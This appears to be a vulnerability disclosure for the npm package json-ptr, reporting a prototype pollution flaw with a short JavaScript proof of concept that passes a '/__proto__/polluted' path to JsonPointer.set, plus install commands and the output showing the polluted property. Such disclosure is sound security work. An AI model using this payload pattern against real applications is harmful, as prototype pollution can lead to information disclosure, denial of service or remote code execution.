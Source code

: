 # Description

`json-ptr` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var {JsonPointer } = require("json-ptr")
var obj = {}
console.log("Before : " + obj.polluted);
JsonPointer.set(obj,'/__proto__/polluted','Yes! Its Polluted', true);
var obj1 ={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i json-ptr # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
